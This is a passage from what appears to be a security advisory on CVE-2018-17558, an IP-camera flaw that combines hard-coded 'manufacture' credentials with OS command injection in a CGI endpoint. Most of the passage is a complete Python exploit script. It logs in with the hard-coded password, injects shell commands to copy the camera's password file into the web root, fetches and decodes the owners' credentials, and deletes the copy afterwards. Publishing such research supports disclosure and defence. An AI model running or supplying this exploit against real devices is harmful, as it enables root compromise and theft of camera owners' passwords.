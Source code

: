 ![Screenshot of X86 assembly](17558.png)

#### Evaluation[⌗](#evaluation-1)

If the `manufacture` user account is combined with the input attack, it is possible to execute arbitrary code as root on the camera from outside, even if the owner of the camera has chosen secure passwords. These are simply bypassed.

CVSS v2: [AV:N/AC:L/Au:N/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:L/Au:N/C:C/I:C/A:C)) = Base Score **10.0**

#### Exploitation[⌗](#exploitation-1)

Obviously, using the hard-coded credentials for your purposes is as easy as it gets.

Bringing together the puzzle pieces “hardcoded credentials” and “OS injection” gives you endless possibilities; one of them is to leak out the (user-managed) credentials:

```
#!/usr/bin/env python3
import argparse
import requests
import urllib
import huepy
import base64
def main():
    parser = argparse.ArgumentParser(description="exploit-17558")
    parser.add_argument('ip', type=str, help='target IP, eg 127.0.0.1')
    args = parser.parse_args()
    print(huepy.cyan("[~] Exploit for CVE-2018-17558"))
    copyCreds(args.ip) and showCreds(args.ip) and delCreds(args.ip)
def copyCreds(target):
    print(huepy.yellow("[~] Copying creds"))
    r = requests.get("http://manufacture:erutcafunam@%s/cgi-bin/mft/wireless_mft?ap=</invalid;cp%%20/var/www/secret.passwd%%20/web/html/leakedcredentials" % (target), verify=False)
    if r.status_code == 200:
        print(huepy.green("[+] SUCCESSFUL!"))
        return True
    else:
        print(huepy.red("[-] Failed. Server is not vulnerable..."))
        return False
def showCreds(target):
    print(huepy.yellow("[~] Here are the credentials of %s" % (target)))
    r = requests.get("http://%s/leakedcredentials" % (target), verify=False)
    if r.status_code == 200:
        print(huepy.green("[+] SUCCESSFUL! Here you go:"))
        print("Rights\t\t| Password\t|")
        for line in r.text.split("\n"):
            if "0000" in line:
                parts = line.split(" ")
                print("%s\t| %s\t|" % (parts[0], base64.b64decode(parts[1]).decode("utf-8")))
        return True
    else:
        print(huepy.red("[-] Failed. Server is not vulnerable..."))
        return False
def delCreds(target):
    print(huepy.yellow("[~] Cleaning up"))
    r = requests.get("http://manufacture:erutcafunam@%s/cgi-bin/mft/wireless_mft?ap=</invalid;rm%%20/web/html/leakedcredentials" % (target), verify=False)
    if r.status_code == 200:
        print(huepy.green("[+] Successful. Thanks for your cooperation."))
        return True
    else:
        print(huepy.red("[-] Failed. Server is not vulnerable..."))
        return False
```